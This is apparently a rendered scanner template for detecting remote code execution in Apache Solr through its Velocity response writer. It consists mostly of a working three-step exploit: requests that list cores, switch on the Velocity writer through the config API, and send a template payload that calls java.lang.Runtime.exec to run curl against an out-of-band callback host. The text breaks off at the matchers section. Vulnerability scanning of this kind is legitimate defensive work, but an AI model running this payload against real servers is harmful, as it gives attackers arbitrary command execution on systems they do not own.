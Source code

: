 ## Requests

### Step - 1

```
GET /solr/admin/cores?wt=json HTTP/1.1
Host: {{Hostname}}

```

### Step - 2

```
POST /solr/{{core}}/config HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json

{
    "update-queryresponsewriter": {
      "startup": "lazy",
      "name": "velocity",
      "class": "solr.VelocityResponseWriter",
      "template.base.dir": "",
      "solr.resource.loader.enabled": "true",
      "params.resource.loader.enabled": "true"
    }
}

```

### Step - 3

```
GET /solr/{{core}}/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27curl%20{{interactsh-url}}%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: {{Hostname}}
Connection: close

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - status**
